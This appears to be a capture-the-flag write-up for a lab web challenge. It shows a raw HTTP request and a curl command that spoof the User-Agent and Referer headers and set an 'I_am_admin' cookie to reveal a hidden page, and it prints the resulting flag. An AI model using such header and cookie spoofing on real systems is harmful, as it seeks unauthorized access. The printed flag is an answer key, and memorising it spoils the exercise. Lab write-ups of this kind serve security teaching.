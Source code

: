 # Exploit
We visit the url "/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c" (link in bottom of main page). We check the source code of the page and we can see the following comments : 
1. "You must cumming from : "https://www.nsa.gov/" to go to the next step"
2. "Let's use this browser : "ft_bornToSec". It will help you a lot."

We deduce these comments refer to the "user agent" and "referer" send in the http headers.
So we send this http headers:

```
GET /index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c HTTP/1.1
Host: 192.168.0.30
User-Agent: ft_bornToSec
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://www.nsa.gov/
Connection: keep-alive
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0, no-cache
Pragma: no-cache
```

Or we use curl with this command:

```bash
curl 'http://x.x.x.x/index.php?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c' -H 'User-Agent: ft_bornToSec' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3' --compressed -H 'Referer: https://www.nsa.gov/' -H 'Connection: keep-alive' -H 'Cookie: I_am_admin=68934a3e9455fa72420237eb05902327' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0, no-cache' -H 'Pragma: no-cache' | grep 'The flag is'
```

In the http response, we get the flag **f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188**

# Patch
Is there really a patch ? Protips: be more discreet if you're a spy agent from the NSA. You're welcome, greeting from Edward Snowden.
